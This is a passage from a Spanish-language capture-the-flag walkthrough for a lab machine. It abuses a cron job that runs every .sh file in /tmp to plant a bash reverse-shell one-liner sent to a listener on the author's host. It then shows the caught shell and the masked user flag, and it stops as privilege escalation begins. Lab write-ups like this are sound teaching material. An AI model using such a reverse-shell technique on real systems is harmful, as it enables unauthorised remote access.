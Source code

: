 ~~~bash
# *  *  *  *  * user-name command to be executed
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * /bin/bash /home/shopadmin/execute.sh
~~~

Se está ejecutando cada minuto un script, veamos sus permisos y contenido:

~~~bash
tuna@coffee-shop:/home$ ls -l /home/shopadmin/execute.sh
-rwxrwxr-x 1 shopadmin shopadmin 33 Jan  3 18:37 /home/shopadmin/execute.sh
tuna@coffee-shop:/home$ cat /home/shopadmin/execute.sh  
#!/bin/bash

/bin/bash /tmp/*.sh
~~~


### Reverse shell

Vemos que ejecuta con bash como *shopadmin* todos los scripts terminados en .sh dentro de /tmp, así que vamos a tratar de enviarnos una reverse shell como dicho usuario creando un script:

~~~bash
echo "bash -i >& /dev/tcp/192.168.1.150/1234 0>&1" > /tmp/shell.sh
~~~

En este caso no hace falta darle permisos ni poner el shebang porque ya indica que se va ejecutar con bash, solo nos falta ponernos en escucha con nc y recibir la shell:

~~~bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.150] from (UNKNOWN) [192.168.1.180] 45924
bash: cannot set terminal process group (3689): Inappropriate ioctl for device
bash: no job control in this shell
shopadmin@coffee-shop:~$
~~~

Ahora realizamos el [tratamiento de la TTY](https://kaianperez.github.io/tty/) y vamos a por la flag de user.

~~~bash
shopadmin@coffee-shop:~$ ls
execute.sh  user.txt
shopadmin@coffee-shop:~$ cat user.txt 
DR********************HT
~~~


## Escalada de privilegios

Ahora vamos ya a por la de root, así que vamos a revisar los comandos que podemos ejecutar como otros usuarios:
